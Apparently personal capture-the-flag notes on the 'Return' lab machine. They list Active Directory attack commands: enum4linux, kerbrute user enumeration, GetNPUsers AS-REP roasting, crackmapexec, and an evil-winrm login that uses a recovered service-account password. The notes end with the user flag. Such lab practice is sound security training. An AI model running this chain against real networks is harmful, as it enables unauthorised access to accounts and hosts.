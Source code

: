 
```
enum4linux -a 10.10.11.108
```

```
Domain Name: RETURN               
Domain Sid: S-1-5-21-3750359090-2939318659-876128439
```


Will run the above command again and see if we can have any change in the information
```
enum4linux -a 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```
no change in the information i was just trying so we have to wait for the nmap so will idea which port and services to target.

Let's see the valid users
```
kerbrute userenum -d RETURN --dc 10.10.11.108 userlist.txt -t 100
```
![[Pasted image 20240505193717.png]]

```
administrator@RETURN
Printer@RETURN
svc-printer@RETURN
```

```
administrator
Printer
svc-printer
```


```
GetNPUsers.py RETURN/ -usersfile valid_user.txt -format john -dc-ip 10.10.11.108
```
![[Pasted image 20240505193906.png]]

```
crackmapexec smb 10.10.11.108 -u svc-printer -p 1edFg43012!! --shares
```
![[Pasted image 20240505193429.png]]

Let's Run evil-winrm
```
evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108
```
![[Pasted image 20240505193628.png]]
So it's always worth if port 5985 or 5986 is open

User Flag
```
27cff978cabf5d337eda3cf7dc3889e7
```
